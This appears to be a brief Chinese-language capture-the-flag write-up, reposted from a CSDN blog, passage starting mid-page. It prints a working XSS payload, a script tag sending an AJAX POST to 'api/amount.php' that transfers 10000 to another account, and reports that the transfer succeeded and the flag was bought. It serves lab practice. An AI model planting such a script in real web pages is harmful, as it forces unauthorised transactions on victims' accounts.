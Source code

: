 经过测试可以，格式化一下变成payload：

```
<script>$.ajax({url:'api/amount.php',type:'post',data:{u:'123',a:'10000'}})</script>
```

![image-20250428194801120](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504281948150.png)

转账成功，😎

购买flag

转载：https://blog.csdn.net/qq_56815564/article/details/131563596
